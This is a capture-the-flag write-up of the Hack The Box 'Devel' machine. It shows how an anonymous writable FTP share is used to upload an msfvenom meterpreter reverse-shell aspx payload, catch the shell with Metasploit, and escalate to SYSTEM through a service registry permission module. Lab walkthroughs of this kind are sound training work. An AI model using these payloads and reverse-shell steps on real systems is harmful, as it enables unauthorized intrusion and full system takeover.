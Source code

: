 ```yaml
---
layout: post
title: Hack The Box - Devel
categories:
  - hackthebox
slug: hack-box-legacy
tags:
  - windows
---
```

## Challenge description

[https://app.hackthebox.com/machines/Devel](https://app.hackthebox.com/machines/Devel)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 --ulimit 5000 -- -A -sC -Pn
[...]
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
| 01-18-22  01:50AM                 2911 shell.aspx
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have an IIS 7.5 FTP and Web server

### Web Enumeration

There's not much here to discover. The site is an IIS default web page.

### FTP Enumeration

FTP server is accessible anonymously. Even better, this FTP server is giving us write permissions on the site root folder.

## Exploitation && Foothold

Let's create a meterpreter payload as an aspx file and upload it

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx > h3xshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2713 bytes

$ ftp $ip
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:h3x): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put h3xshell.aspx
local: h3xshell.aspx remote: h3xshell.aspx
229 Entering Extended Passive Mode (|||49211|)
150 Opening ASCII mode data connection.
100% |****************************************************************************************************************|  2748       23.60 MiB/s    --:-- ETA
226 Transfer complete.
2748 bytes sent in 00:00 (143.79 KiB/s)
```

Now that our payload is in place, launch a metasploit handler, browse the payload and wait for the shell:

```
$ msfconsole

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set rhosts 10.10.10.5
rhosts => 10.10.10.5
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.5:49277 ) at 2022-01-19 04:11:20 +0000

meterpreter > shell
Process 516 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

## Privilege Escalation

There are 2 services vulnerable to a registry edit attack. Dnscache and RpcEptMapper. There is a way to create a performance counter pointing to a malicious DLL.

The exploit is well described [here](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

There's a metasploit module that we can use to exploit the service: exploit/windows/local/service_permissions

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/service_permissions
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/service_permissions) > set session 1
session => 1
msf6 exploit(windows/local/service_permissions) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/service_permissions) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Trying to add a new service...
[*] Trying to find weak permissions in existing services..
[+] [Dnscache] Created registry key: HKLM\System\CurrentControlSet\Services\Dnscache\Performance
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:4444 -> 10.10.10.5:49271 ) at 2022-01-19 02:02:05 +0000

meterpreter > shell
Process 728 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
e69af0e4f443de7e36876fda4ec7644f
C:\Windows\system32>whoami
whoami
nt authority\system

c:\Users\babis\Desktop>more user.txt.txt
more user.txt.txt
(redacted)

C:\Windows\system32>more e69af0e4f443de7e36876fda4ec7644fc:\users\administrator\desktop\root.txt
more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
